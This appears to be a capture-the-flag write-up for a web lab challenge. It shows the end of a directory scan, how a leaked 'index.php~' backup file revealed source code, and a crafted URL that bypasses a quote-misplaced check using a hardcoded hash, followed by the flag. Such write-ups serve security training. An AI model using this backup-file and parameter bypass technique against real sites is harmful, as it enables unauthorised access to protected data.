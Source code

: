 ```sh
Progress: 31511 / 32305 (97.54%)
===============================================================
2023/10/18 23:43:50 Finished
===============================================================
```

- we noticed that there is a `index.php` and `index.php~` files
- based on that we accessed `index.php~` endpoint and downloaded the file
- we then saw the actual code used to show the secret
- by setting the `page` param to `($page === '$_SERVER[REMOTE_ADDR]')` we will always reach the `echo` command, because of the misplacement of the quotes.
- further by setting the `secret` param to `5e8586c3355551da6d48a5aa10dd7b85ca93404c0f1a7ead6cd1343f45320b3b` the echo command should always be executed, because the hash that the code tries to find is hardcoded
- based on this premise we prepared the URL

```url
https://742faade-8b87-424d-adb6-c85129821041.idocker.vuln.land/index.php?page=$_SERVER[REMOTE_ADDR]&secret=5e8586c3355551da6d48a5aa10dd7b85ca93404c0f1a7ead6cd1343f45320b3b
```

```txt
FLAG = 5abf5739-ed71-4ca6-b780-8bd45dd35832
```
